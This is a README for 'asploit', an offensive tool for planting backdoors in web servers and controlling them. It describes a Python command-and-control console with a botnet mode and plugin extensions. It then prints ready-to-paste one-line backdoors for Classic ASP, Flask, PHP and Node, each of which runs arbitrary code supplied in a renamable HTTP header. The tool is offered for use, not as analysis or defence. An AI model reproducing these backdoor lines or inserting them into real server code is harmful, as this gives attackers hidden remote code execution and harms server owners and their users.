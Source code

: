 # asploit
This tool allows you to deploy and exploit backdoors with one line of code in Classic ASP, Flask, NodeJS, and PHP servers.

Custom extensions can be created and installed to control any backdoored server.
# Command and Controller
## Setup
Install the prerequisites with `pip install -r requirement.txt` in the `src` folder.

If you're on Windows, run `pip install -r windows_requirements.txt`.
## Starting the Controller
The controller runs on Python. To start, run `main.py` in the `src` folder.
## Help
Type `help` to list all commands in the current shell. Changes depending on whether or not you've entered a botnet or exploit shell.
## Botnet Controlling
To control multiple backdoors at once, run `botnet` outside of an exploit shell to enter the botnet mode.
## Custom Backdoors/Exploits
### Loading Extensions
Load extensions using the `loadext` command before entering an exploit shell.

Run `help loadext` for more details.
### Creating Extensions
To make a custom exploit/extension, create a Python module containing a class/classes that extends the ExploitProcessor class.

View the `PHPExploitProcessor` in the `src` folder for an example of the implementation.
# Backdoor
## Backdoor Creation Script
Use the `create_backdoor.sh` script to generate the one line backdoor. The following is for reference.
### Classic ASP
Add the following line to the top of the file you want to have the backdoor
```
<% If request.servervariables("EXPLOIT") <> "" Then:execute(request.servervariables("EXPLOIT")):response.end:End If %>
```
### Flask
Add the following line to the top of the endpoint you want to have the backdoor
```
if request.headers.get('EXPLOIT'): global r;exec(__import__('base64').b64decode(request.headers.get('EXPLOIT').encode()).decode());return r;
```
### PHP
Add the following line to the top of the endpoint you want to have the backdoor
```
isset($_SERVER["HTTP_EXPLOIT"]) and eval($_SERVER["HTTP_EXPLOIT"]);
```
### Node
Add the following line to the endpoint you want to have the backdoor
```
if (req.headers?.exploit) return (eval('let r=res;let i=req;'+req.headers?.exploit));
```
Replace `res` with the `ServerResponse` parameter name, and replace `req` with the `IncomingRequest` parameter name.
#### Note
Only works if `fs` and `{ execSync } from 'child_process` is imported.

So in some cases, the backdoor may technically be up to three lines.
### Notes
Any area where `EXPLOIT` or `exploit` is referenced can be replaced with any custom HTTP header (eg. for PHP, `HTTP_EXPLOIT` -> `HTTP_ANYTHINGYOUWANT`).
# Contributing
Any help in this project would be appreciated, and feel free to make pull requests for any custom extensions you create.
# Thank You
This repository was inspired by [PHPSPLOIT](https://github.com/nil0x42/phpsploit).
